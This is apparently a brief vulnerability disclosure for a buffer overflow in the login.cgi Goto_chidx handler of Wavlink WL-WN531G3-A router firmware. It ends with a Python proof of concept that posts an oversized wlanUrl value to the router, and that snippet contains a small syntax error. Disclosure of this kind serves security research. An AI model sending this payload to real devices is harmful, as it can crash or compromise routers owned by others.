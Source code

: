 # buff overflow

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:

![](7.png)

get value from wlanUrl, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
```
